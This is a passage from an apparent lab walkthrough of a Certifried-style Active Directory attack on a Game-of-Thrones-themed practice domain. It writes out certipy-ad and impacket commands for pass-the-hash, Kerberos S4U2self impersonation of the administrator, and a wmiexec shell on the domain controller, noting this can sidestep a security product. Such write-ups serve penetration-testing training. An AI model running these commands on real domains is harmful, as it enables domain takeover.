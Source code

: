- delete the created computer with a domain admin user
```
certipy-ad account delete -u daenerys.targaryen@essos.local -hashes 'aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a' -user 'certifriedpc'
```


- Ok but now imagine you can’t dcsync with secretdump due to a security product on the dc, or you just want to get a shell directly on the DC. Let’s try to get a shell.
- We got the TGT of the DC (exactly like in part 5 for samaccountname) so we will use impacket getST to impersonate the administrator and get a st to access the DC as administrator (see : [https://www.thehacker.recipes/ad/movement/kerberos/delegations/s4u2self-abuse](https://www.thehacker.recipes/ad/movement/kerberos/delegations/s4u2self-abuse))

> Remember to use the good impacket pull request to use this, see part5 for installation (thx again to shutdown for the adds to impacket)
```
export KRB5CCNAME=./meereen.ccache
impacket-getST.py -self -impersonate 'administrator' -altservice 'CIFS/meereen.essos.local' -k -no-pass -dc-ip 'meereen.essos.local' 'essos.local'/'meereen'
```
![screenshot](pics/certifired_admin_impersonate.png)


- and now we can use our ticket

```
export KRB5CCNAME=./administrator@CIFS_meereen.essos.local@ESSOS.LOCAL.ccache 
impacket-wmiexec -k @meereen.essos.local
```
![screenshot](pics/certifired_wimexec.png)

- We could also do the same thing but with winrm to be even more legit :)
```
export KRB5CCNAME=./meereen.ccache

python3 /opt/tools/myimpacket/examples/getST.py -self -impersonate 'administrator' -altservice 'HTTP/meereen.essos.local' -k -no-pass -dc-ip 'meereen.essos.local' 'essos.local'/'meereen'
```

